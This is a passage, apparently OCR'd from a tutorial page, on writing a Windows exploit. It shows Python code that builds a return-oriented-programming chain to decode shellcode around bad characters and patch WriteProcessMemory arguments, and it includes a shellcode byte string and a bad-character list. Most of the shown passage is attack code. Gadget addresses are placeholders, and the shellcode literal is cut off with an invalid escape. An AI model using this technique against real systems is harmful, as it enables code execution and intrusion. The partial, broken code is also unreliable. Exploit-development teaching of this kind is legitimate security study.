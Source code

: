             value = None
            for j in range(len(badchars)):
                if shellcode[badIndex[i]] == badchars[j]:
                    value = encodedchars[j]
                    value = (value << 8) | 0x11110011
    
            restoreRop += pack("<L", (0xFFFFFFFF)) # POP VALUE
            restoreRop += pack("<L", (neg_offset)) # offset to the next bad char
            restoreRop += pack("<L", (0xFFFFFFFF)) # SUB OFFSET
            restoreRop += pack("<L", (0xFFFFFFFF)) # POP VALUE
            restoreRop += pack("<L", (value)) # values in AL
            restoreRop += pack("<L", (0xFFFFFFFF)) # add byte [ecx], al ; ret ;
    
        return restoreRop
    ```
    
    Given that a pointer to the shellcode located on the stack is necessary for its modification (or decoding), the optimal position to install the decoding process would be subsequent to the alteration of the `lpBuffer` argument. We will need to continue adjusting our offset for our shellcode set during `LPBUFFER` as our ROP changes to ensure we land within our NOP slides. 
    
    ```python
    [....]
    
    ########### ROP ENCODER ###########
    ## Bad chars:  \0x00\x0d\x20\x2b\x3d\x5e
    shellc = b"\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe"
    
    pos = mapBadChars(shellc)
    rop += decodeShellcode(pos, shellc)
    
    #Restore WPM prototype buffer for nSize patching
    
    ## NSIZE
    #adjust eax to align with nsize e.g. increase eax 0x04
    rop += pack("<L", (0xFFFFFFFF)) # inc eax ; ret  ; 
    rop += pack("<L", (0xFFFFFFFF)) # inc eax ; ret  ;
    [....]
    
    #####################
    ## NOP & Shellcode ##
    #####################
    # NOP Padding before shellcode, adjust as needed
    encodedShellcode = encode(shellcode)
    [....]
    ```
    
    Before we identify potential ROP gadgets for the decoding process, we recap our register values where our ROP Encoder are set to start.
    